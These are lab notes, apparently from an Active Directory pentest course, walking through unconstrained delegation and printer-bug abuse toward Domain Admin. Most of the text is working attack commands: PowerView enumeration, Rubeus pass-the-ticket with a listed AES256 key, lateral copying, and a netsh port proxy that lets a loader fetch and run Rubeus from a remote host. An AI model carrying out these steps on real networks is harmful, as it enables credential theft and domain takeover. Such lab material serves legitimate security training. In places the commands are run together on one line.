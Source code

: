 # 🖨️ Unconstrained Delegation to DA to Entreprise Admin through printer bug

first we need to find a server that has unconstrained delegation enabled ->

```
. C:\AD\Tools\PowerView.ps1 
Get-DomainComputer -Unconstrained | select -ExpandProperty name
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Since the prerequisite for elevation using Unconstrained delegation is having admin access to the machine, we need to compromise a user which has local admin access on appsrv. Recall that we extracted secrets of appadmin, srvadmin and websvc from dcorp-adminsrv. Let's check if anyone of them have local admin privileges on dcorp-appsrv.

Let's first try with appadmin, first use ArgSplit to encode "asktgt"->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

In the new process, let's run those commands ->

```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local
```

Perfect, it's a hit with appadmin:

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Now we need to copy Rubeus to dcorp-appsrv to abuse Printer Bug ->

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe /Y
```

Perfect, rubeus is on appsrv:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Now, with argsplit let's encode "monitor" and copy that on the side while we get a shell on appsrv ->

```
winrs -r:dcorp-appsrv cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13 C:\Users\appadmin> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:DCORP-DC$ /interval:5 /nowrap C:\Users\Public\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

we can note that we set %Pwn% to monitor on the appsrv machine
